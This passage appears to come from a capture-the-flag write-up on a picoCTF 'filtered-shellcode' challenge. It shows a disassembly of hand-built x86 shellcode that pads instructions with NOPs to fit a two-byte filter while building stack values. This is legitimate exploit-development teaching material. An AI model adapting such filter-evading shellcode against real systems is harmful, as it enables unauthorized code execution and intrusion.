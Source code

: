 Then, we can rewrite this in assembly as follows:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/filtered-shellcode]
└─$ pwn disasm "31C031DBB011B303F7E3F7E3B302F7E3D1EB01D8B302F7E3F7E3D1EB01D8B302F7E3D1EB01D8B311F7E3B302F7E3F7E3D1EB01D8509031C0B07FB317F7E3B302F7E3D1EB01D8B302F7E35B90F7E35090"
   0:    31 c0                    xor    eax,  eax
   2:    31 db                    xor    ebx,  ebx
   4:    b0 11                    mov    al,  0x11
   6:    b3 03                    mov    bl,  0x3
   8:    f7 e3                    mul    ebx
   a:    f7 e3                    mul    ebx
   c:    b3 02                    mov    bl,  0x2
   e:    f7 e3                    mul    ebx
  10:    d1 eb                    shr    ebx,  1
  12:    01 d8                    add    eax,  ebx
  14:    b3 02                    mov    bl,  0x2
  16:    f7 e3                    mul    ebx
  18:    f7 e3                    mul    ebx
  1a:    d1 eb                    shr    ebx,  1
  1c:    01 d8                    add    eax,  ebx
  1e:    b3 02                    mov    bl,  0x2
  20:    f7 e3                    mul    ebx
  22:    d1 eb                    shr    ebx,  1
  24:    01 d8                    add    eax,  ebx
  26:    b3 11                    mov    bl,  0x11
  28:    f7 e3                    mul    ebx
  2a:    b3 02                    mov    bl,  0x2
  2c:    f7 e3                    mul    ebx
  2e:    f7 e3                    mul    ebx
  30:    d1 eb                    shr    ebx,  1
  32:    01 d8                    add    eax,  ebx
  34:    50                       push   eax
  35:    90                       nop
  36:    31 c0                    xor    eax,  eax
  38:    b0 7f                    mov    al,  0x7f
  3a:    b3 17                    mov    bl,  0x17
  3c:    f7 e3                    mul    ebx
  3e:    b3 02                    mov    bl,  0x2
  40:    f7 e3                    mul    ebx
  42:    d1 eb                    shr    ebx,  1
  44:    01 d8                    add    eax,  ebx
  46:    b3 02                    mov    bl,  0x2
  48:    f7 e3                    mul    ebx
  4a:    5b                       pop    ebx
  4b:    90                       nop
  4c:    f7 e3                    mul    ebx
  4e:    50                       push   eax
  4f:    90                       nop
```

Notice how we padded 1-byte instructions with a NOP. 
